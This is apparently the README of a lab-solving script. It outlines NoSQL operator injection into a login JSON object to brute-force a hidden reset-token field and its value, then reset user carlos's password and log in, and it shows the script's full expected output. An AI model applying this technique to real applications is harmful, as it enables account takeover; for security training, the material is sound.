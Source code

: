 # Hack Steps

1. Fetch the forgot-password page
2. Extract csrf token and session cookie
3. Make a forgot-password request for carlos
4. Inject an operator and payload into the login JSON object to determine the length of the unknown field name
5. Modify the payload to brute force the field name
6. Modify the payload to determine the length of the field value
7. Modify the payload to brute force the field value
8. Fetch the forgot-password page with the field name and its value as a query pararmeter
9. Extract csrf token and session cookie
10. Make a reset password request for carlos
11. Login as carlos with the new password
12. Fetch the carlos profile

# Run Script

1. Change the URL of the lab
2. Start script

```
~$ cargo run
```

# Expected Output

```
⟪#⟫ Injection point: login JSON object
⦗1⦘ Fetching the forgot-password page.. OK
⦗2⦘ Extracting csrf token and session cookie.. OK
⦗3⦘ Sending a reset password request for carlos.. OK
⦗4⦘ Checking if field number 3 length =  5
⦗4⦘ Checking if field number 3 length =  7
                            ...............
⦗4⦘ Checking if field number 3 length =  13 [ Correct length: 13 ]
⦗5⦘ Checking if the char of field 3 at position 7  =  d (47%): r s t w T  e
⦗5⦘ Checking if the char of field 3 at position 7  =  d (76%): res t wdT ken
                            ...............
⦗5⦘ Checking if the char of field 3 at position 3  =  d (100%): resetPwdToken
⦗6⦘ Checking if the field resetPwdToken length =  7
⦗6⦘ Checking if the field resetPwdToken length =  10
                            ...............
⦗6⦘ Checking if the field resetPwdToken length =  16 [ Correct length: 16 ]
⦗7⦘ Checking if the char of resetPwdToken at position 15  =  d (43%): 8  7  1 6   2 ad
⦗7⦘ Checking if the char of resetPwdToken at position 15  =  d (75%): 8 e7 21 61fc2 ad
                            ...............
⦗7⦘ Checking if the char of resetPwdToken at position 15  =  d (100%): 86e7721561fc20ad
⦗8⦘ Fetching the forgot-password page with the field name and its value as a query pararmter.. OK
⦗9⦘ Extracting csrf token and session cookie.. OK
⦗10⦘ Reseting carlos password to hacked.. OK
⦗11⦘ Logging in as the carlos.. OK
⦗12⦘ Fetching the carlos profile.. OK
🗹 Check your browser, it should be marked now as solved
```
